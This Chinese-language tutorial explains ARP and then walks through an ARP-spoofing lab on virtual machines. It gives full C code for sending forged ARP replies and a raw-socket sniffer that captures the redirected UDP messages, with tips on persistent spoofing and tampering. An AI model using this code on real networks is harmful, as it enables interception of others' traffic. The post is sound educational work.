


# ARP 原理、攻击与欺骗

## 前言

前段时间在学网络协议的时候，知道了有 ARP 攻击这么个东西，但是当时对 Linux 环境下的 C 语言编程不是很了解，一直没有机会实践一下。终于在最近学习了网络编程之后，才算是入门了一点点 Linux C 语言编程。于是乎，经过两天的研究，终于亲自试验了一把 ARP 攻击，纸上得来终觉浅，绝知此事要躬行\~不废话了，下面就详细介绍一下我在虚拟机上实施 ARP 攻击的过程。

## 什么是 ARP 协议？

在同一个局域网中， 一个主机要想给另外一个主机发送消息，必须知道目标主机的 MAC 地址，但是在 TCP/IP 协议中，网络层和传输层只关心目标主机的 IP 地址，换言之，数据链路层拿到的报文中只包含目标主机的 IP 地址，他必须根据目标主机的 IP 地址找到相应的 MAC 地址，然后将消息发送出去。这个时候就需要用到 ARP 协议了。

ARP（英文：Address Resolution Protocol），翻译成中文是「地址解析协议」，是根据 IP 地址获取 MAC 地址的网络传输协议。现在我们假设局域网中有三台主机 A、B、C，他们的 IP 地址和 MAC 地址分别如下表所示：

|   |                 |                   |
| - | --------------- | ----------------- |
|   | IP 地址           | MAC 地址            |
| A | 192.168.133.1   | 00:50:56:C0:00:08 |
| B | 192.168.133.140 | 00:0C:29:B6:1E:5E |
| C | 192.168.133.141 | 00:0C:29:80:44:D4 |

现在 A 想给 B 发一条消息，此时 A 只知道 B 的 IP 地址，不知道 B 的 MAC 地址，它就会向局域网中广播一条 ARP 请求消息，询问 B 的 MAC 地址。这相当于 A 在局域网中喊：谁知道 192.168.133.140 的 MAC 地址？知道的话告诉我一声。虽然局域网中其他主机都会收到这条消息，但是其他主机一看自己的 IP 地址不是 192.168.133.140，就不会搭理 A，只有 B 收到了这条消息后发现 A 是在询问自己的 MAC 地址，于是就会给 A 发送一条 ARP 应答消息，告诉 A 自己的 MAC 地址是 00:0C:29:B6:1E:5E。





A 收到 B 的 ARP 应答后，知道了 B 的 MAC 地址，就可以给 B 发送消息了。同时 A 会将 B 的MAC 地址保存下来，以便下次再给 B 发消息的时候使用，这个叫做 ARP 缓存，在 Windows 和 Linux 上都可以通过 `arp -a` 这条命令查看当前系统的 ARP 缓存。ARP 缓存有一定的有效期，不同的系统有效期不一样，过了有效期之后，当 A 需要再次给 B 发消息的时候，A 会重新广播 ARP 请求，来询问 B 的 MAC 地址。

## ARP 攻击

以上讲的是正常的 ARP 请求-应答过程。如果大家都按照这个规则来，就会相安无事，可如果有人不按套路出牌，主动给 A 发送 ARP 应答呢？ARP 协议的漏洞就出现在这里，对于一个主机来说，不管他之前有没有发送过 ARP 请求，只要他收到了 ARP 应答，他就会把收到的 ARP 应答里面的 IP 地址和 MAC 地址的对应关系存到自己的 ARP 缓存里。

假设现在主机 C 向 A 发送了一个 ARP 应答，告诉 A，IP 地址是 192.168.133.140（B 的 IP 地址） 的主机的 MAC 地址是 00:0C:29:80:44:D4（C 的 MAC 地址），那么 A 给 B 发送数据的时候，报文里的 MAC 地址就会写成 C 的 MAC 地址，这样一来，本来应该是发到 B 那里的消息，结果发到了 C 这里。这就是 ARP 攻击的原理。下文中如无特殊说明，A 均指数据发送者，B 均指数据接收者，C 均指攻击者。


## ARP 欺骗

## 实战

### 前期准备

#### 环境搭建

我的操作系统是 Windows，虚拟机软件用的是 VMware15，上面装了两台操作系统是 CentOS6.5 的虚拟机，虚拟机的网络连接模式选择 NAT 模式。我现在用 Windows 操作系统模拟 A，两台虚拟机分别模拟 B 和 C。

#### ARP 报文格式

在写代码之前，我们得先知道 ARP 报文的格式。ARP 报文格式如下：


该报文从左到右分别是：

**以太网链路层**

* 目标以太网地址：目标MAC地址。FF:FF:FF:FF:FF:FF （二进制全1）为广播地址。
* 源以太网地址：发送方MAC地址。
* 帧类型：以太类型，ARP为0x0806。

**以太网报文数据**

* 硬件类型：如以太网（0x0001）、分组无线网。
* 协议类型：如网际协议（IP)（0x0800）、IPv6（0x86DD）。
* 硬件地址长度：每种硬件地址的字节长度，一般为 6（以太网）。
* 协议地址长度：每种协议地址的字节长度，一般为 4（IPv4）。
* 操作码：1 为 ARP 请求，2 为ARP 应答，3 为 RARP 请求，4 为 RARP 应答。
* 源硬件地址：n 个字节，n 由硬件地址长度得到，一般为发送方 MAC 地址。
* 源协议地址：m 个字节，m 由协议地址长度得到，一般为发送方 IP 地址。
* 目标硬件地址：n 个字节，n 由硬件地址长度得到，一般为目标 MAC 地址。
* 目标协议地址：m 个字节，m 由协议地址长度得到，一般为目标 IP 地址。

### 编写代码

首先是发送 ARP 应答的代码：

```
 //Filename: send_arp.c #include <stdio.h> #include <ctype.h> #include <stdlib.h> #include <string.h> #include <errno.h> #include <netdb.h> #include <net/if.h>// struct ifreq #include <sys/ioctl.h> // ioctl、SIOCGIFADDR #include <sys/socket.h> #include <arpa/inet.h> #include <linux/if_ether.h> #include <netpacket/packet.h> // struct sockaddr_l ​ ​ #define ETH_HW_ADDR_LEN 6 #define IP_ADDR_LEN 4 #define ARP_FRAME_TYPE 0x0806 #define ETHER_HW_TYPE 1 #define IP_PROTO_TYPE 0x0800 #define OP_ARP_REQUEST 2 ​ #define DEFAULT_DEVICE "eth0" ​ struct arp_packet {         u_char targ_hw_addr[ETH_HW_ADDR_LEN];         u_char src_hw_addr[ETH_HW_ADDR_LEN];         u_short frame_type;         u_short hw_type;         u_short prot_type;         u_char hw_addr_size;         u_char prot_addr_size;         u_short op;         u_char sndr_hw_addr[ETH_HW_ADDR_LEN];         u_char sndr_ip_addr[IP_ADDR_LEN];         u_char rcpt_hw_addr[ETH_HW_ADDR_LEN];         u_char rcpt_ip_addr[IP_ADDR_LEN];         u_char padding[18]; }; ​ void die(char*); void get_ip_addr(struct in_addr*, char*); void get_hw_addr(char*, char*); ​ int main(int argc, char** argv) {     struct in_addr src_in_addr,targ_in_addr;     struct arp_packet pkt;     struct sockaddr_ll sa;     struct ifreq req;     int sock = socket(PF_PACKET, SOCK_RAW, htons(ETH_P_ALL));     if (sock < 0) {         printf("Initial raw socket failed");         return -1;     }else         printf("%d\n", sock); ​     pkt.frame_type = htons(ARP_FRAME_TYPE);     pkt.hw_type = htons(ETHER_HW_TYPE);     pkt.prot_type = htons(IP_PROTO_TYPE);     pkt.hw_addr_size = ETH_HW_ADDR_LEN;     pkt.prot_addr_size = IP_ADDR_LEN;     pkt.op=htons(OP_ARP_REQUEST); ​     get_hw_addr(pkt.targ_hw_addr,argv[4]);     get_hw_addr(pkt.rcpt_hw_addr,argv[4]);     get_hw_addr(pkt.src_hw_addr,argv[2]);     get_hw_addr(pkt.sndr_hw_addr,argv[2]); ​     get_ip_addr(&src_in_addr,argv[1]);     get_ip_addr(&targ_in_addr,argv[3]); ​     memcpy(pkt.sndr_ip_addr,&src_in_addr,IP_ADDR_LEN);     memcpy(pkt.rcpt_ip_addr,&targ_in_addr,IP_ADDR_LEN); ​     bzero(pkt.padding,18); ​     strncpy(req.ifr_name, DEFAULT_DEVICE, IFNAMSIZ); //指定网卡名称     if(-1 == ioctl(sock, SIOCGIFINDEX, &req))  //获取网络接口     {         perror("ioctl");             close(sock);          exit(-1);     } ​     /*将网络接口赋值给原始套接字地址结构*/     bzero(&sa, sizeof(sa));     sa.sll_ifindex = req.ifr_ifindex; ​     int res = sendto(sock, &pkt, sizeof(pkt), 0, (struct sockaddr *)&sa, sizeof(sa));     printf("res: %d\n", res);     if(res < 0){         perror("sendto");         exit(1);     }     exit(0); } ​ void die(char* str){     fprintf(stderr,"%s\n",str);     exit(1); } ​ void get_ip_addr(struct in_addr* in_addr,char* str){ ​     struct hostent *hostp; ​     in_addr->s_addr=inet_addr(str);     if(in_addr->s_addr == -1){         if( (hostp = gethostbyname(str)))             bcopy(hostp->h_addr,in_addr,hostp->h_length);         else {             fprintf(stderr,"send_arp: unknown host %s\n",str);             exit(1);         }     } } ​ void get_hw_addr(char* buf,char* str){     int i;     char c,val; ​     for(i=0;i<ETH_HW_ADDR_LEN;i++){         if( !(c = tolower(*str++))) die("Invalid hardware address");         if(isdigit(c)) val = c-'0';         else if(c >= 'a' && c <= 'f') val = c-'a'+10;         else die("Invalid hardware address"); ​         *buf = val << 4;         if( !(c = tolower(*str++))) die("Invalid hardware address");         if(isdigit(c)) val = c-'0';         else if(c >= 'a' && c <= 'f') val = c-'a'+10;         else die("Invalid hardware address"); ​         *buf++ |= val; ​         if(*str == ':')str++;     } }
```

假设 A 是数据发送方，B 是数据接收方，C 是攻击者，C 想窃取 A 发送给 B 的数据，那么 C 运行这个程序需要 4 个参数，分别是：B 的 IP 地址，C 的 MAC 地址，A 的 IP 地址，A 的 MAC 地址。在上面那个例子中，就是：

```
 ./send_arp.out 192.168.133.140 00:0C:29:80:44:D4 192.168.133.1 00:50:56:C0:00:08
```

这个程序运行完之后，A 给 B 发送的数据就会发送到 C 这里。

### 测试

首先写一个 UDP 的客户端，运行在 A 上，负责发送数据：

```
 #我的 Windows 系统上安装的是 Python3，所以这个 UDP 的客户端是用 Python3 写的 ​ import socket ​ address = ('192.168.133.140', 31500) s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM) msg = input() s.sendto(msg.encode('utf-8'), address) s.close()
```

然后写一个 UDP 的服务端，运行在 B 和 C 上，负责接收数据：

```
 #!/usr/bin/python #这个是在 CentOS 上运行的，CentOS默认安装了 Python2，没有安装 Python3（我懒得安装了），所以就用 Python2 写了这个 UDP 服务端 ​ import socket ​ address = ('', 31500) s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM) s.bind(address) ​ while True:     data, addr = s.recvfrom(2048)     if not data:         print "client has exist"         break     print "received:", data, "from", addr s.close()
```

在没有运行 send_arp 之前，A 的 ARP 缓存如下：


A 发送给 B 的消息能够正常送达。


在主机 B 上运行 send_arp 之后，A 的 ARP 缓存发生了变化：


而且 A 发送给 B 的消息也无法送达了。

但是如果这个时候你在 C 上运行 UDP 服务端，你会发现 C 也收不到 A 发送的消息。


这是怎么回事呢？其实这个时候 A 发送的消息是到达了 C 的，只不过这个消息在经过网络层的时候被丢弃了。要想把这件事解释清楚，就不得不提到 TCP/IP 的四层网络模型。大家都知道，TCP/IP 的四层网络模型自下而上包括：网络接口层、网际层、传输层、应用层，主机发送消息时，是从上往下发，每经过一层，都要在消息体前面加上当前层的报头信息。比如经过网际层时，要在消息体前面加上源 IP 地址和目标 IP 地址等信息，经过网络接口层时，要在消息体前面加上源 MAC 地址和目标 MAC 地址等信息。

主机接收消息时，正好反过来，是从下往上接收。网络接口层最先收到消息，然后他会验证消息头的目标 MAC 地址是否是本机的 MAC 地址，如果是，就将消息发送给上一层，也就是网际层。网际层收到消息后，会验证目标 IP 地址是否是本机的 IP 地址，如果是，就将消息发送给传输层，否则就丢弃。


C 接受到的 A 发送过来的消息结构大概是这样的：


当这个消息经过网际层的时候，网际层发现这个消息的目标 IP 地址是 192.168.133.140，而当前主机的 IP 地址是 192.168.133.141，所以就把这个消息丢弃了。我们用 Python 写的 UDP 服务端是工作于应用层的程序，应用层的数据来自传输层，但是数据在网际层就被丢弃了，所以没有显示出来。

### 攻击者接收数据

既然应用层程序接收不到数据，我们就要用原始套接字直接接收网络接口层的数据，然后再从中解析有用的数据。下面是接收数据程序代码：

```
 //Filename: recv.c #include <stdio.h> #include <netinet/in.h> #include <sys/socket.h> #include <netinet/ether.h>   #define IP_ADDR_LEN 4 ​ unsigned char src_ip_addr[IP_ADDR_LEN] = {192, 168, 133, 1}; unsigned char dst_ip_addr[IP_ADDR_LEN] = {192, 168, 133, 140}; ​ void print_ip_addr(char*); int ipcmp(char*, char*); int main(int argc,char *argv[]) {     unsigned char buf[1024] = {0};     //初始化原始套接字     int sock_raw_fd = socket(PF_PACKET, SOCK_RAW, htons(ETH_P_ALL));     printf("sock_fd: %d\n", sock_raw_fd);      if (sock_raw_fd < 0)         return -1;     //获取链路层的数据包     while(1){         int len = recvfrom(sock_raw_fd, buf, sizeof(buf), 0, NULL, NULL);         if (len == -1)             break;         //如果第 24 个字节是 0x11，说明是 UDP 报文         if (len >= 24 && buf[23] == 0x11){             //获取报文中的源 IP 地址和目标 IP 地址。与我们要拦截的 IP 地址进行对比             if (ipcmp(buf+26, src_ip_addr) == 0 && ipcmp(buf+30, dst_ip_addr) == 0){                 printf("Length = %d\n", len);                 printf("Received:\n");                 int i = 0;                 while (len > i){                     printf("%x ", buf[i]);                     if (i % 8 == 7) printf("  ");                     if (i % 16 == 15) printf("\n");                     i++;                 }                 printf("\n");                 printf("Source: ");                 print_ip_addr(buf+26);                 printf("Destination: ");                 print_ip_addr(buf+30);                 printf("UDP data: ");                 //打印消息体                 i = 42;                 while (len > i){                     printf("%c", buf[i]);                     i++;                 }                 printf("\n\n");             }         }     }     return 0; } ​ void print_ip_addr(char* buf){     int i = 0;     for (i = 0; i < IP_ADDR_LEN; ++i) {         printf("%d", buf[i] & 0x000000ff);         if (i+1 != IP_ADDR_LEN){             printf(".");         } else {             printf("\n");         }     } } ​ int ipcmp(char* buf, char* ip_addr){     int i = 0;     for (i = 0; i < IP_ADDR_LEN; ++i) {         if (buf[i] != ip_addr[i]){             return -1;         }     }     return 0; }
```

下面是用 recv 接收数据的效果：


## 结语

为了方便，我在实验过程中做了几点简化：

*   **ARP 缓存有效期问题**

    我们在实验过程中，只发起了一次 ARP 攻击。在文章开头介绍 ARP 的时候我提到了 ARP 缓存有效期，事实上，ARP 攻击正是利用了 ARP 缓存。C 发起 ARP 攻击之后，A 的 ARP 缓存中存在着一条错误的「IP 地址 - MAC 地址」对应关系，但是当有效期过了之后，这个缓存就失效了，C 需要再次发起 ARP 攻击。如果你想达到长期欺骗的效果，应该改写一下 send_arp.c，让它每隔一定的时间就发送一次 ARP 应答，使目标主机更新自己的 ARP 缓存。
* **数据处理方式**
  1. 我在 recv.c 中选择了只接收源 IP 地址是 192.168.133.1，目标 IP 地址是 192.168.133.140 的 UDP 报文，理论上，在实施 ARP 攻击之后，A 发送给 B 的一切数据都会发送到 C 这里，无论是 UDP 还是 TCP，感兴趣的读者可以自行对 recv.c 进行更改，拦截其他数据。
  2. 在我写的 recv.c 中，拦截数据之后只是简单地打印出来，实际上这样做的话 B 会很快发现自己收不到 A 的数据了，从而发现隐藏的攻击者。根据不同的目的，我们在拦截数据之后，可以选择不同的处理方式，比如将数据再次转发给 C（甚至可以做一些篡改再转发）。

除了上述的几点简化，本次实验还有有待完善的地方。仔细观察你会发现，A 在局域网中其实是一个网关。在实验过程中，我尝试过把 C 的攻击对象改为 B，也就是让 B 认为 A 的 MAC 地址是 00:0C:29:80:44:D4，然后查看 B 的 ARP 缓存，发现攻击生效了。但是当 B 给 A 发送数据的时候，我发现 A 仍能接收到 B 发送的数据。这一点我始终没想明白是为什么，为什么攻击网关可以生效，而攻击局域网中的其他主机不能生效呢？希望知道真相的读者可以为我指点迷津，谢谢！

## 参考链接

1. [https://zh.wikipedia.org/wiki/地址解析协议](https://zh.wikipedia.org/wiki/%E5%9C%B0%E5%9D%80%E8%A7%A3%E6%9E%90%E5%8D%8F%E8%AE%AE)
2. [ARP and ICMP redirection games](https://insecure.org/sploits/arp.games.html)
3. [Linux网络编程——原始套接字编程](https://blog.csdn.net/tennysonsky/article/details/44676377)
4. [https://www.bilibili.com/video/BV147411h7dN?p=69](https://www.bilibili.com/video/BV147411h7dN?p=69)

\\
